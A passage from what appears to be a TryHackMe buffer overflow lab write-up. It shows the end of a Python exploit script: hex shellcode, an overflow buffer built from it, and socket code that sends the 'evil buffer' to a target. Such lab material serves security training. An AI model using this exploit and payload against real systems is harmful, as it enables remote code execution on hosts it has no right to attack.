 ```
"\x02\x80\xc9\x9d\x3b\x4b\x1c\xdc\x7c\xb6\xed\x8c\xd5\xbc\x40"
"\x20\x51\x88\x58\xcb\x29\x1c\xd9\x28\xf9\x1f\xc8\xff\x71\x46"
"\xca\xfe\x56\xf2\x43\x18\xba\x3f\x1d\x93\x08\xcb\x9c\x75\x41"
"\x34\x32\xb8\x6d\xc7\x4a\xfd\x4a\x38\x39\xf7\xa8\xc5\x3a\xcc"
"\xd3\x11\xce\xd6\x74\xd1\x68\x32\x84\x36\xee\xb1\x8a\xf3\x64"
"\x9d\x8e\x02\xa8\x96\xab\x8f\x4f\x78\x3a\xcb\x6b\x5c\x66\x8f"
"\x12\xc5\xc2\x7e\x2a\x15\xad\xdf\x8e\x5e\x40\x0b\xa3\x3d\x0d"
"\xf8\x8e\xbd\xcd\x96\x99\xce\xff\x39\x32\x58\x4c\xb1\x9c\x9f"
"\xb3\xe8\x59\x0f\x4a\x13\x9a\x06\x89\x47\xca\x30\x38\xe8\x81"
"\xc0\xc5\x3d\x05\x90\x69\xee\xe6\x40\xca\x5e\x8f\x8a\xc5\x81"
"\xaf\xb5\x0f\xaa\x5a\x4c\xd8\xdf\x90\x15\xa8\x88\xa6\xa9\xd9"
"\x14\x2e\x4f\xb3\xb4\x66\xd8\x2c\x2c\x23\x92\xcd\xb1\xf9\xdf"
"\xce\x3a\x0e\x20\x80\xca\x7b\x32\x75\x3b\x36\x68\xd0\x44\xec"
"\x04\xbe\xd7\x6b\xd4\xc9\xcb\x23\x83\x9e\x3a\x3a\x41\x33\x64"
"\x94\x77\xce\xf0\xdf\x33\x15\xc1\xde\xba\xd8\x7d\xc5\xac\x24"
"\x7d\x41\x98\xf8\x28\x1f\x76\xbf\x82\xd1\x20\x69\x78\xb8\xa4"
"\xec\xb2\x7b\xb2\xf0\x9e\x0d\x5a\x40\x77\x48\x65\x6d\x1f\x5c"
"\x1e\x93\xbf\xa3\xf5\x17\xdf\x41\xdf\x6d\x48\xdc\x8a\xcf\x15"
"\xdf\x61\x13\x20\x5c\x83\xec\xd7\x7c\xe6\xe9\x9c\x3a\x1b\x80"
"\x8d\xae\x1b\x37\xad\xfa")
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  ```


## Reference

* https://tryhackme.com/room/bufferoverflowprep#
